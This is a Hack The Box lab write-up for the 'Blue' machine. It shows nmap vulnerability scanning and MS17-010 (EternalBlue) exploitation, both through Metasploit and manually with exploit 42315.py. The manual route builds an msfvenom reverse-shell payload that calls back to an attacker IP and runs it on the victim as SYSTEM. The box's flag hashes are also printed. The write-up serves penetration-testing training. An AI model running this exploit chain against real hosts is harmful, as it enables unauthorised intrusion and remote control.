




blue

nmap
nmap -sV -sC -oA nmap.blue 10.10.10.40
nmap vuln
nmap --script vuln -oA nmap/vuln 10.10.10.40
nmap's smb-vuln-ms17-010 scan reports that our victim box is vulnerable to ms17-010 aka eternalblue
eternalblue
metasploit
in metasploit, rooting this box is as simple as finding the eternalblue module, setting its target IP, and running itsearch eternalblue
set rhosts 10.10.10.40
run


manual through serachsploit db
searchsploit eternalblue
mirror the exploit to our box with
searchsploit -m windows/remote/42315.py
next, we'll have to generate a reverse shell payload in .exe format for eternal blue to call back to us when after it root's our victim, msfvenom is perfect for this
msfvenom -p windows/shell_reverse_tcp -f exe LHOST=10.10.14.13 LPORT=4444 > eternal-blue.exe

now before we can run the exploit, there are a couple of things we need to change:
first because Blue's smb share allows guest logins, set the
USERNAME='guest'

next, the eternal-blue exploit will send our payload via the smb_send_file method, so give that function the absolute path of our exploit, followed by where it will be saved on our victim
smb_send_file(smbConn, /root/Documents/htb/boxes/blue/eternal-blue.exe. 'C', '/eternal-blue.exe')
and finally,
have the victim execute our reverse shell with
service_exec(r'cmd /c c:\eternal-blue.exe)

now run our exploit with
python 42315.py 10.10.10.40

and be sure to have a listener setup to catch our reverse shell

and we're system!

user/root

4c546aea7dbee75cbd71de245c8deea9

ff548eb71e920ff6c08843ce9df4e717
lessons learned
Check out Rana Khalil's OSCP writeups and prep at https://rana-khalil.gitbook.io/hack-the-box-oscp-preparation/